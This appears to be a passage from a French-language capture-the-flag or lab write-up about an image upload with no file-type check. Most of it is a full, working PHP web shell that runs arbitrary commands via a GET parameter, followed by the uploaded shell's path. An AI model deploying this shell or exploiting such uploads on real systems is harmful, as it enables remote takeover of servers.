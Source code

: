 
En allant sur la page profile pour éditer on a la possibilité d'upload une image 

![alt text](src/image-5.png)

seulement il n'y a pas de fonctionnalité de check de type de fichiers on peut donc lui soummetre un shell php sans problèmes comme celui ci
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

apres l'upload en inspectant l'élément de notre image on voit le chemi ici **/user_pictures/ae/zebi.php**
